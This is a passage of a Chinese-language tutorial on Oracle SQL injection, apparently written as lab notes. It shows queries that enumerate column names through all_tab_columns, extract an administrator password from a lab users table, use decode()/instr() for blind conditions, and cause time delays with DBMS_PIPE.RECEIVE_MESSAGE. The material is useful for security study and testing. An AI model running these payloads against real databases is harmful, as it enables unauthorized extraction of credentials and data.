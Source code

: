 
```sql
select column_name from (select t.column_name ,rownum as no from (select column_name from all_tab_columns where table_name='USERS_YFRUVP')t) where no = 1
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_53_q9p4wWTC.png)

依次求解，猜解的列名如下：

`USERNAME_BNQFMG`，`PASSWORD_FFFBAY`

针对已知的列名，再带入表中求解字段

**获取某表的值**

```sql
-- 在得知用户名为administrator的情况下，使用如下payload可以获取密码，若不知道用户名，且表中
-- 数据不为1，需要使用子查询来实现limit
select PASSWORD_FFFBAY from USERS_YFRUVP where USERNAME_BNQFMG = 'administrator'
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_53_ESq27w4f.png)

密码为：`1ta07a6rpakca47n3iui`

类似decode()，instr()函数用法

```sql
-- 该语句表示如果a==b 返回c ，否则返回d
select decode(a,b,c,d) from dual;
-- 该语句表示b字符串存在a 中，返回b在a中存在的位置，否则返回0
select instr(a,b) from dual;
```
如下图所示，看到这里构造expression就懂了吧。。。

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_53_vnu2fmoW.png)

![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_54_2mjODMZV.png)



### 时间盲注
#### 常用函数/表达式

- decode() 类似mysql中的if
- case...when...then...else...end
- DBMS_PIPE.RECEIVE_MESSAGE



#### DBMS_PIPE.RECEIVE_MESSAGE
如果无法通过页面差来进行注入，这时就需要使用时间盲注，时间盲注主要通过判断页面返回内容的响应时间差异进行条件判断。
Oracle主要是使用`DBMS_PIPE.RECEIVE_MESSAGE('**pipename**',timeout)`函数，该函数从指定管道获取消息，**pipename**为varchar(128)的字符串，用以指定管道名称，在这里我们输入任意值即可。
**timeout**为integer的可选输入参数，用来指定等待时间。

```sql
select dbms_pipe.receive_message('o', 10) from dual;
```
![image.png](./Oracle 注入基础.assets/2023_05_19_10_40_54_H7VFkxiY.png)
